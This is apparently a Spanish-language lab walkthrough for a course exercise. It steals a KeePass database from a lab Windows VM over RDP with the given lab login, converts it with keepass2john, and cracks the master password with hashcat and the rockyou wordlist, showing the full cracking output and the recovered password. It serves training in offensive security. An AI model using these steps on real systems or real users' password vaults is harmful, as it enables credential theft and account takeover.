 # Walk: Password Attacks - Password Manager - VM #1
## Fecha: 22/02/2025
## Host: Windows
## IP: 192.168.155.203
## Objetivo
Follow the steps outlined in this section to obtain the master password of the KeePass database on VM #1 (SALESWK01). Enter the password found with the title "User Company Password".
## Herramientas
1. xfreerdp
2. keepass2john
3. hashcat
## Procedimiento y comandos
#### Paso 1: Nos conectamos al cliente windows por RDP.
- Compartimos el directorio **_/tmp_** de nuestro kali en caso de que tengamos que descargar u obtener un archivo.
  - `xfreerdp /v:192.168.155.203 /u:jason /p:lab +clipboard /cert:ignore /drive:/tmp`
  -  Descargamos en nuestro kali copiando el archivo **Database.kdbx** en el directorio compartido _**/tmp**_
#### Paso 2: Formateamos el .kdbx y guardamos la salida en un .hash:
- `keepass2john Database.kdbx > keepass.hash`
- Al observar el archivo notamos:
```
cat keepass.hash  
Database:$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1
```
 - Adecuamos el .hash quitando **_"Database:"_**
#### Paso 3: Ejecutamos hashcat:
Antes de ejecutar hashcat para crackear el hash, buscamos el modo correspondiente a KeePass:
- `hashcat --help | grep -i "KeePass"`
```
  13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager
```
> Procedemos a ejecutar hashcat
- `hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force`
```
$keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d20dec73a9db1a7fbc7a068c9aec6bd*04b0bfd787898d8dcd4d463ee768e55337ff001ddfac98c961219d942fb0cfba*5273cc73b9584fbd843d1ee309d2ba47*1dcad0a3e50f684510c5ab14e1eecbb63671acae14a77eff9aa319b63d71ddb9*17c3ebc9c4c3535689cb9cb501284203b7c66b0ae2fbf0c2763ee920277496c1:qwertyuiop123!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13400 (KeePass 1 (AES/Twofish) and KeePass 2 (AES))
Hash.Target......: $keepass$*2*60*0*d74e29a727e9338717d27a7d457ba3486d...7496c1
Time.Started.....: Sat Feb 22 00:20:49 2025, (35 secs)
Time.Estimated...: Sat Feb 22 00:21:24 2025, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/rockyou-30000.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    94299 H/s (9.05ms) @ Accel:128 Loops:60 Thr:1 Vec:16
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 3213312/430331550000 (0.00%)
Rejected.........: 0/3213312 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:3137-3138 Iteration:0-60
Candidate.Engine.: Device Generator
Candidates.#1....: 123456123! -> bethany123!
Hardware.Mon.#1..: Temp: 57c Util: 91%

Started: Sat Feb 22 00:19:19 2025
Stopped: Sat Feb 22 00:21:25 2025
```
#### Paso 4: Obtenemos el flag:
- El password obtenido del comando anterior es _**qwertyuiop123!**_
Desde el cliente Windows ahora podemos acceder al Password Manager.
